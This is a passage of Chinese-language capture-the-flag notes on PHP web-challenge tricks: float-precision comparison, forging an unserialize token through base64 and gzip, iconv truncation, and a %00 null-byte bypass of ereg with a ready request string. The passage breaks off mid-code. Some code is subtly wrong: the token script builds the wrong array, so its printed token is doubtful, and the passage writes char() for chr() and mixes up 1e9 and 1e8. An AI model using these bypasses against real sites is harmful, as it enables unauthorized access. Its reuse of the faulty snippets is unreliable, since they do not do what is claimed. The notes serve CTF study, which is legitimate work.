 ```php
复制代码
```

### 浮点数精度忽略

```php
if ($req["number"] != intval($req["number"]))
复制代码
```

在小数小于某个值（10^-16）以后，再比较的时候就分不清大小了。 输入number = 1.00000000000000010, 右边变成1.0, 而左与右比较会相等。

### 多重加密

题目中有：

```php
$login = unserialize(gzuncompress(base64_decode($requset['token'])));
if($login['user'] === 'ichunqiu'){echo $flag;}
复制代码
```

本地则写：

```php
<?php
$arr = array(['user'] === 'ichunqiu');
$token = base64_encode(gzcompress(serialize($arr)));
print_r($token);
// 得到eJxLtDK0qs60MrBOAuJaAB5uBBQ=
?>
复制代码
```

### 截断

#### iconv 异常字符截断

```php
## 因iconv遇到异常字符就不转后面的内容了，所以可以截断。
## 这里chr(128)到chr(255)都可以截断。
$a='1'.char(130).'2';
echo iconv("UTF-8","gbk",$a); //将字符串的编码从UTF-8转到gbk
echo iconv('GB2312', 'UTF-8', $str); //将字符串的编码从GB2312转到UTF-8
复制代码
```

#### eregi、ereg可用%00截断

功能：正则匹配过滤 条件：要求php<5.3.4

```php
## http://127.0.0.1/Php_Bug/05.php?password=1e9%00*-*
#GET方式提交password，然后用ereg()正则限制了password的形式，只能是一个或者多个数字、大小写字母，继续strlen()限制了长度小于8并且大小必须大于9999999，继续strpos()对password进行匹配，必须含有-，最终才输出flag
#因为ereg函数存在NULL截断漏洞，导致了正则过滤被绕过,所以可以使用%00截断正则匹配。
#对于另一个难题可以使用科学计数法表示，计算器或电脑表达10的的幂是一般是e，也就是1.99714e13=19971400000000，所以构造 1e8 即 100000000 > 9999999，在加上-。于是乎构造password=1e8%00*-*,成功得到答案
<?php
if (isset ($_GET['password'])) {
    if (ereg ("^[a-zA-Z0-9]+$",$_GET['password']) === FALSE)
       {
        echo '<p>You password must be alphanumeric</p>';
    }
    else if (strlen($_GET['password']) < 8 && $_GET['password'] > 9999999)
    {
        if (strpos ($_GET['password'], '*-*') !== FALSE)
        {
```